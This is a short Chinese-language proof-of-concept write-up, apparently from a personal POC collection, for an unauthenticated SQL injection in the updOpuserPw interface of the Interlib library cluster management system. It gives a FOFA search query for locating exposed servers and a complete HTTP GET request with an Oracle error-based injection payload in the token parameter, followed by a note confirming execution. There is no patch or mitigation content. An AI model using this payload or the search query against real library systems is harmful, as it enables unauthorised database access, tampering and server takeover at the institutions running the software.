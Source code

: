 # 图书馆集群管理系统interlib updOpuserPw SQL注入漏洞

## 1.漏洞描述

Interlib图书馆集群管理系统是全新的第三代图书馆系统，它作为资源共建共享的新的实现形式，打破了各图书馆单位所有，条块分割的局面，将城市图书馆群或高校多个校区的图书馆作为一个整体进行管理，从而能达到资源共建共享、合理配置和图书馆之间互相合作的目的。其updOpuserPw接口存在SQl注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息，例如添加、删除或修改记录，进而控制服务器系统。

## 2.搜索语法

```plain
fofa：body="interlib"
```

## 3.漏洞复现

```plain
GET /interlib3/service/sysop/updOpuserPw?loginid=test&newpassword=12356&token=1%27and+ctxsys.drithsx.sn(1,(select%20MOD(9,9)%20from%20dual))=%272 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

SQL报错成功执行取模运算函数

![image-20240615211111573](D:\py\POC\图书馆集群管理系统interlib updOpuserPw SQL注入漏洞\image-20240615211111573.png)
